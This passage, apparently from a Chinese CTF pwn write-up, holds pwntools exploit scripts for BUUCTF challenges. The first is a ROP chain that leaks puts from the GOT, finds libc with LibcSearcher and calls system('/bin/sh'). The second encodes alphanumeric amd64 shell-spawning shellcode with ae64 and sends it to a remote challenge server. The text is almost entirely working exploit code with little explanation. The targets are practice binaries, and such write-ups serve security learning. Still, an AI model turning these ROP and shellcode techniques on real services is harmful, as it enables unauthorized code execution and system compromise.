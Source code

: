 ```python

payload = p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(0x400ACA)
payload += p64(0)		# rbx
payload += p64(1)		# rbp
payload += p64(elf.got['read'])	# r12
payload += p64(0x30)		# r13
payload += p64(stack_addr + 18 * 8)	# r14
payload += p64(0)		# r15
payload += p64(0x400AB0)
payload += p64(0) * 6
payload = payload.ljust(0xD0, b'\x00') + p64(stack_addr - 0x8) + p64(0x400A18)

io.sendafter(b'>', payload)

io.recvuntil(b'Byebye~\n')
puts = u64(io.recvuntil(b'\n', drop=True) + b'\x00\x00')
print(hex(puts))

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
print(hex(base))
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = p64(poprdi_ret)
payload += p64(binsh)
payload += p64(system)
io.send(payload)

io.interactive()
```

# buu081-mrctf2020_shellcode_revenge
单纯的一个只允许使用字母和数字的shellcode，使用ae64可直接获取。
```python
from pwn import *
from ae64 import *
context.log_level = 'debug'
context.arch = 'amd64'

# io = process(['./mrctf2020_shellcode_revenge'])
io = remote('node4.buuoj.cn', 25890)

sa = lambda x, y: io.sendafter(x, y)
shellcode = AE64().encode(asm(shellcraft.amd64.sh()), 'rax')

if __name__ == '__main__':
    sa(b'Show me your magic!\n', shellcode)
    io.interactive()
```
